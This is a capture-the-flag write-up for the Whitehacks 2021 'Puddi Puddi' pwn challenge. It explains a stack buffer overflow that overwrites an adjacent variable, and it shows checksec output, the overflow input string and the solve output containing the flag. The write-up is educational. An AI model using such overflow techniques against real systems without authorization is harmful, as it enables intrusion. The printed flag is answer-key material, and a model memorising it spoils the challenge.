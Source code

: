 # Puddi Puddi
981, PWN, 12 SOLVES


### Description
Why have a MEGA 🍮 when you can have a GIGA 🍮?

Interact with the service using nc chals.whitehacks.ctf.sg 20301 to get started!

### Attached Files
exploit-template.py
puddi

## Team
NYCP

## Category
Pwn


## Flag
`WH2021{3880fba0faf0_g1g4_pudd1}`

## Steps

### Strategy

$ checksec puddi
[*] '/mnt/c/Users/zunmu/Documents/Stuff/Github/Solutions/Cyber Security/Capture the Flag Competitions/2021/Whitehacks 2021/Pwn/Puddi Puddi/puddi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled


The idea is a typical buffer overflow problem, to overflow the variable such that you modify the other variables on the stack

$ rbp is the base pointer, $rsp is the stack pointer

Through math and trial and error on gdb, we can figure out

### Getting the flag from the server
```
$ python solve.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGIGA
[+] Opening connection to chals.whitehacks.ctf.sg on port 20301: Done
PUDDI PUDDI!
[*] Switching to interactive mode

PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888


WH2021{3880fba0faf0_g1g4_pudd1}

[*] Got EOF while reading in interactive
$                
```
